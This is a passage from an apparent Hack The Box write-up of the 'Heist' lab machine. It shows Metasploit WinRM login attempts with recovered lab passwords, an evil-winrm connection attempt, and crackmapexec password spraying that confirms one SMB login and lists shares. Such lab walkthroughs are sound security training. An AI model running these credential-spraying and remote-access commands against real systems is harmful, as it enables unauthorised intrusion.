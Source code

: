 I put all the new passwords into my credentials file and re-ran the metasploit command:
```
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\hazard:stealth1agent (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\hazard:stealth1agent (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\hazard:$uperP@ssword (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\hazard:Q4)sJu\Y8qz*A3?d (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\rout3r:stealth1agent (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\admin:stealth1agent (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\admin:stealth1agent (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\admin:$uperP@ssword (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\admin:Q4)sJu\Y8qz*A3?d (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\hazard:stealth1agent (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\hazard:stealth1agent (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\hazard:$uperP@ssword (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\hazard:Q4)sJu\Y8qz*A3?d (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\Administrator:stealth1agent (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\Administrator:stealth1agent (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\Administrator:$uperP@ssword (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\Administrator:Q4)sJu\Y8qz*A3?d (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\stealth1agent: (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\$uperP@ssword: (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\Q4)sJu\Y8qz*A3?d: (Incorrect: )
```

Still no success 😟

Googling around a bit more, I found `evil-winrm`, which should allow us to run code via the port 5985.
```bash
sudo gem install evil-winrm
evil-winrm -i 10.10.10.149 -u hazard -p 'stealth1agent'
Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
Error: Exiting with code 1
```
hmm, even thought the password for the user `hazard` was correct to connect to SMB, it did not allow us to use winRM.


There is another tool called `crackmapexec`, which will work similar to hydra, but is specially designed for samba, as it can evaluate shares as well
```bash
kali@kali:~/htb/boxes/heist/10.10.10.149$ crackmapexec smb -u users.txt -p cisco-passwd.txt --shares 10.10.10.149                                             
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
SMB         10.10.10.149    445    SUPPORTDESK      [+] Enumerated shares
SMB         10.10.10.149    445    SUPPORTDESK      Share           Permissions     Remark
SMB         10.10.10.149    445    SUPPORTDESK      -----           -----------     ------
SMB         10.10.10.149    445    SUPPORTDESK      ADMIN$                          Remote Admin
SMB         10.10.10.149    445    SUPPORTDESK      C$                              Default share
```